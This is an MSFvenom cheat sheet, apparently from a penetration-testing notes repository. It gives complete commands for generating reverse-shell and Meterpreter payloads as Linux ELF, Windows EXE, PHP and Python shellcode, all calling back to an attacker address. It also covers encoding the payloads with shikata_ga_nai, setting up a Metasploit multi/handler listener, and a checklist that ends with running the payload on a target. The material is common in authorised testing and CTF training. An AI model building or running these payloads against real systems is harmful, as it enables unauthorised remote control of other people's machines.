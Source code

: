    

MSFvenom

# 🐍 MSFvenom Cheat Notes

## 📌 What is MSFvenom?

- Replaces old `msfpayload` + `msfencode`.
    
- Used to **generate payloads** for exploitation.
    
- Supports many **formats** (exe, elf, php, asp, war, etc.) & **targets** (Windows, Linux, Android, iOS).
    

---

## 🔍 Discover payloads

List all available payloads:

msfvenom -l payloads

```
msfvenom -l payloads
```

---

## 🖨️ Output formats

List supported output formats:

msfvenom --list formats

```
msfvenom --list formats
```

Examples:

- `-f exe` → Windows executable
    
- `-f elf` → Linux binary
    
- `-f raw` → raw shellcode
    
- `-f python` → embed in script
    
- `-f php` → PHP webshell
    

---

## 🔐 Encoders

Used to **encode payloads** (e.g., avoid bad chars), not guaranteed to bypass AV.  
List encoders:

msfvenom -l encoders

```
msfvenom -l encoders
```

Use encoder:

-e x86/shikata_ga_nai -i 5

```
-e x86/shikata_ga_nai -i 5
```

(encode 5 times)

---

## 🚀 Examples

### Linux reverse shell ELF

msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=10.10.10.10 LPORT=4444 -f elf > shell.elf
chmod +x shell.elf

```
msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=10.10.10.10 LPORT=4444 -f elf > shell.elf
chmod +x shell.elf
```

### Windows reverse Meterpreter EXE

msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.10.10.10 LPORT=4444 -f exe > shell.exe

```
msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.10.10.10 LPORT=4444 -f exe > shell.exe
```

### PHP reverse shell

msfvenom -p php/reverse_php LHOST=10.10.10.10 LPORT=4444 -f raw > shell.php
# Edit: add <?php at start and ?> at end

```
msfvenom -p php/reverse_php LHOST=10.10.10.10 LPORT=4444 -f raw > shell.php
# Edit: add <?php at start and ?> at end
```

### Python shellcode

msfvenom -p linux/x86/shell_reverse_tcp LHOST=10.10.10.10 LPORT=4444 -f python

```
msfvenom -p linux/x86/shell_reverse_tcp LHOST=10.10.10.10 LPORT=4444 -f python
```

### Encode example (Base64 for PHP)

msfvenom -p php/meterpreter/reverse_tcp LHOST=10.10.10.10 LPORT=4444 -f raw -e php/base64

```
msfvenom -p php/meterpreter/reverse_tcp LHOST=10.10.10.10 LPORT=4444 -f raw -e php/base64
```

---

## 🎣 Setting up the handler

Use multi/handler to catch the shell.

msfconsole
use exploit/multi/handler
set payload php/reverse_php
set LHOST 10.10.10.10
set LPORT 4444
run

```
msfconsole
use exploit/multi/handler
set payload php/reverse_php
set LHOST 10.10.10.10
set LPORT 4444
run
```

✅ Works for all payloads (Windows, Linux, etc.), just change `payload`.

---

## 📝 Quick checklist for MSFvenom

✅ Choose payload for target system (check with `msfvenom -l payloads`).  
✅ Set `LHOST` = your IP, `LPORT` = your listening port.  
✅ Decide on output format (`-f`).  
✅ (Optional) encode with `-e encoder -i n`.  
✅ Save payload to file.  
✅ Set up `exploit/multi/handler` in Metasploit.  
✅ Run payload on target, wait for reverse connection.

---

## 💡 Tips

- Always check your IP (`ip a`) and firewall rules.
    
- If not connecting, verify:
    
    - Target can reach your LHOST IP + port is open.
        
    - Correct payload architecture (x86 vs x64).
        
- Use `netcat` to test connectivity before trying payload.
    

---